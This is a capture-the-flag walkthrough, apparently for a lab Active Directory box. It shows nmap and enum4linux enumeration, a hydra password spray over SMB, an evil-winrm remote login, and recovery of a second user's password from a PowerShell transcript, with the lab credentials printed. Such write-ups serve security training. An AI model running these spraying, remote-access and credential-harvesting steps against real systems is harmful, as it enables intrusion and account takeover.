 We being to enumerate the box with nmap

```
nmap -sV -sC -sS -Pn -T4 10.10.10.169 -p-
```
We see that this is an active directory and add the domain name to the /etc/host file 
```
echo "10.10.10.169  megabank.local" >> /etc/hosts
```
Afterwards we review the nmap results to begin enumeration with enum4linux:
```
enum4linux -a 10.10.10.169
```
We find the password for the user Marko ```Welcome123!```

We then get the root dn ```DC=megabank,DC=local``` using nmap:
```
nmap --script=ldap-search -Pn -p 389 10.10.10.169
```
we try to sign in with marko but it was not his password so we used hydra to find the right user for the password:
```
hydra -L resolute_users.txt -p Welcome123! smb://10.10.10.169 -V -f
```
we sign in with the user melanie:

```
evil-winrm -i  megabank.local -u melanie -p Welcome123!
```

We begin to enumerate the machine and start with the C:\ directory:
```
Get-ChildItem -Force
```
this listed all the folders in the directory and we decided to checkout the ```PSTranscripts``` folder and
find a file called ```PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt``` her we find the password for the 
user ryan : ```Serv3r4Admin4cc123!```

